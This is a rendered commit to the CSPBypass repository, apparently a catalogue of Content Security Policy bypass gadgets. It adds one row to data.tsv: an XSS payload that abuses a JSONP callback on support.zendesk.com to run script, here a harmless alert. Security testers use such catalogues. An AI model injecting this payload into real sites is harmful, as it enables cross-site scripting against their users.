

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Adding support.zendesk.com CSP bypass

```diff
--- a/data.tsv
+++ b/data.tsv
+row 86: support.zendesk.com <script src=https://support.zendesk.com/accounts/reminder?callback=alert(window.location)//></script>
```
